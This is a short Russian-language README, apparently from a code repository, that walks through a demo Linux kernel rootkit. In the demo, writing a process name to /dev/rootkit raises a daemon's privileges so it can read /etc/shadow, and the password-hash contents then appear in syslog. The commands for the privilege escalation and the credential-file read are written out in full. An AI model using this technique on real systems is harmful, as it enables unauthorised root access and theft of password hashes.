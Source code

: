 rootkit

Модуль при загрузке создает файл устройства "/dev/rootkit"

Запускаем демон "./mydaemon -c start"

Заставляем читать демон системный файл "/etc/shadow". 

"./mydaemon -c read"

Прав не хватает и он плачет в syslog об этом.

Error file open: Permission denied

"Повышаем" права демона

echo "mydaemon" > /dev/rootkit

Просим повторить демона процедуру чтения. Успех.

В syslog появилось содержимое файла "/etc/shadow"

=======

